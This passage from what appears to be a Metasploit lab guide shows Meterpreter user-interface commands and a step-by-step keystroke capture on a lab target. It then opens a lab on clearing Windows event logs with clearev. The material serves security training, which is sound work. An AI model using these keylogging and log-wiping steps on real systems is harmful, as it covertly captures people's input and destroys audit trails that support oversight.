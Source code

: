 ```bash
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```

- Open a `Notepad` session on the Target machine.
- On the Attacker machine, start the keystroke capture

```bash
keyscan_start
	Starting the keystroke sniffer ...
```

- Input some text into the target machine
- Back on the attacker machine, capture the entered data

```bash
keyscan_dump
```

![keyscan_dump](3-metasploitassets/image-20230419231942667.png)

- Stop the sniffer

```bash
keyscan_stop
```

------

## Lab 9 - Clearing Event Logs

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.26.66`
> - Metasploit **clearev** `Meterpreter` option
